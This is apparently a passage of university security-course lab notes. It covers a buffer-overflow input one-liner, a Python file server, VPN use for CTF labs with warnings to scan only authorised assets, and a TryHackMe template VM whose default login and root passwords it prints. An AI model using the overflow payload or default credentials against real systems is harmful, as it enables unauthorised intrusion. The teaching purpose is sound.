For example, I could fill up the buffer with a 46 'A' characters and then start injecting additional hex characters I want using this simple command line:
python -c "print('A'*46 + '\xd0\x8f\x04\x08')"
Ultra simple web file sharing using Python
Need to share files quickly? Python has your back.
Navigate to the folder where your file, called filename is located. Note the IP address of the computer and then run:
python -m http.server 9999
This will create an http instance at port 9999 capable of serving files located in that directory.
From a different machine, connect to it through a browser or simply use wget.
wget x.x.x.x:9999/filename
where x.x.x.x is the IP address of your HTTP server.
Note: This is an unencrypted HTTP stream. Be cognizant of the files you transfer over this stream as they will be readily visible.
VPNs
Let's lay out the following scenario:
You have been given permission to assess a specific asset for vulnerabilities, and this asset is connected to the internet. You scan the asset for open ports and find a web server running on port 80. You fire up gobuster to identify potential endpoints on the website.
WARNING: Network traffic of this sort is associated with threat actors. There is a real possibility that your employer or ISP will flag your activities as malicious and take action.
To remedy this, most CTF labs and cyber ranges will house their vulnerable assets on internal, protected networks. Your network traffic is tunneled through a Virtual Private Network (VPN) while traversing the open internet, only emerging on that protected network. Not only are the vulnerable assets protected, your malicious looking traffic is obscured from the public internet.
In Kali Linux, you can establish VPN connections at the top right corner of the screen.

You will need the VPN information (host name, port, etc.) from the lab manager. This may come in the form of a file that you import.
WARNING: Most VPNs of this sort are classified as SPLIT TUNNEL networks. Only traffic destined for the private network is tunneled. All other traffic is sent normally. Be sure that activities like port scanning, vulnerability scanning, endpoint enumeration, etc. are done only on assets that are part of the private network.
Linux Template VMs
A template VM is available for you at: https://classes.csse.rose-hulman.edu/csse14x/
Working with the debian-template VM
This is a lightweight VM capable of being uploaded to TryHackMe.
Usage:
-
Import it into VirtualBox or VMware Workstation.
-
Next, login with username
minionand passwordkingbob. -
The root user password is also
kingbob. It may be beneficial to usesufor some work. -
ssh is enabled for the
minionaccount. Use it to set up the VM but be sure to disable it before production use.
Important! Before uploading this to THM, disable the SSH server.
systemctl disable sshd
Docker Config
This VM has Docker pre-installed. Make sure you run the container mode in detached (-d) mode and tell it to restart itself always.
docker run -d --restart always
For example, to have it run the tenders container, log in as root and then run:
docker run -d --restart always -p 80:3000 henthornlab/tenders
and then
systemctl disable sshd
The VM now only exposes port 80 and is ready to be uploaded to THM.